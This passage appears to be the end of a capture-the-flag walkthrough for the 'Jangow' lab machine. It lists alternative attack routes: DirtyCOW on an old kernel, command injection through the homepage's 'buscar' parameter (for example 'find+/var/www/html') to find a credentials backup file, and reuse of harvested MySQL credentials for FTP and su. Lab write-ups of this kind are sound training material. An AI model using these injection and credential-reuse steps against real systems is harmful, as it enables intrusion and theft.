                       @ @&     ,@@@@@@@@@@@@@@@,@@@@@@@&%@@@@@@@@@@@@@@@%*   &@                    
                       @  @@.     .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%*    &@&                    
                       @  @@@&       ,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%/     &@@&&                    
                       @  @@@@@@.        *%@@@@@@@@@@@@@@@@@@@@&#/.      &@@@@&&                    
                       @  @@@@@@@@&               JANGOW               &@@@                          
                       @  &&&&&&&&&@@@&     @@(&@ @. %.@ @@%@     &@@@&&&&                          
                                     &&&@@@@&%       &/    (&&@@@&&&                                
                                       (((((((((((((((((((((((((((((


hash-is-here

```

### Possible rabbit holes or different attack vectors

#### DirtyCOW

A dirtyCOW should have been possible since the kernel version on the victim machine is 4.4.0-31 and the earliest fixed version in Ubuntu 16.04 LTS is kernel version 4.4.0-45. Applying the different dirtyCOW resulted in unstable system or reboots. 

#### The wordpress folder

The wordpress folder was empty except the config.php. In the config.php we can get the mysql credentials. Since I got better attack vectors, I didn't follow this further. We can get the credentials even without an initial shell if we use the RCE that the homepage provides us. For example, we can use ```find``` command like ```find+/var/www/html``` as the value for the parameter ```buscar``` and we'll find the file ```.backup``` containing the credentials



#### The ftp credentials

Reusing the user and password credential we get from ```config.php``` or ```/var/www/html/.backup```, we can login to ftp. After getting the initial shell we can use the credentials to `su` as the user jangow01. Anyway, the initial attack vector is still more promising so we don't follow this vector

#### The backup file in the /script folder 

There is a backup executable in the /script folder but I couldn't use it to escalate privileges. No ```setuid``` on the file and nothing with ```sudo -l``` or with ```crontab -l```

